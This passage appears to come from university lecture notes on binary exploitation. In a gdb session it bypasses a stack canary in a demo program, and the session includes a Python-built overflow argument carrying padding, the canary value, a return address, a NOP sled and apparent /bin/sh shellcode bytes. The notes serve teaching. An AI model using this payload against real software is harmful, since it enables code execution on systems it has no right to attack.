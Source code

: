 ``` {.example}
  (...)
(gdb) ni
(gdb) p/x $eax
$1 = 0x90ba2000
(gdb) x/4xw $ebp
0xbffff498: 0xbffff4b8  0x080485b0  0xbffff558  0xb7fff000
```

We now know a canary (0x90ba2000) value and we know a location to jump
to (0xbfff4a\*), so we can restart our program with those values. But
when we do that, the cannary value has changed:

``` {.example}
(gdb) r `python -c "print '0x41414141 '*10 + '0x90ba2000 ' + '0x41414141 '*3 +'0xbffff4a4 ' + '0x90909090 '*10 + '0xe1f7c931 0x2f6e6850 0x2f686873 0x8969622f 0xcd0bb0e3 0x90909080'"`
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/git/si485-binary-exploits/lec/18/demo/hex_to_char `python -c "print '0x41414141 '*10 + '0x90ba2000 ' + '0x41414141 '*3 +'0xbffff4a4 ' + '0x90909090 '*10 + '0xe1f7c931 0x2f6e6850 0x2f686873 0x8969622f 0xcd0bb0e3 0x90909080'"`

Breakpoint 1, foo (args=0xbffff558) at hex_to_char.c:5
5   void foo( char ** args){
(gdb) ni
0x080484d1  5   void foo( char ** args){
(gdb) p/x $eax
$2 = 0xaae87500
```

And in here lies the problem: Every time we restart the program we loose
the canary, but we can pretend like we knew it before hand by modifying
our input in gdb:

``` {.example}
(gdb) x/s *(args+10)
0xbffff79e: "0x90ba2000"
(gdb) set *(args+10)="0xaae87500"
(gdb) x/s *(args+10)
0x804b008:  "0xaae87500"
```

And if were to now remove the breakpoints and continue:

``` {.example}
(gdb) d
Delete all breakpoints? (y or n) y
(gdb) c
Continuing.
0x0: AAAA
0x4: AAAA
0x8: AAAA
0xc: AAAA
0x10: AAAA
0x14: AAAA
0x18: AAAA
0x1c: AAAA
0x20: AAAA
0x24: AAAA
0x28: u?
0x2c: AAAA
0x30: AAAA
0x34: AAAA
0x38: ????
0x3c: ????
0x40: ????
0x44: ????
```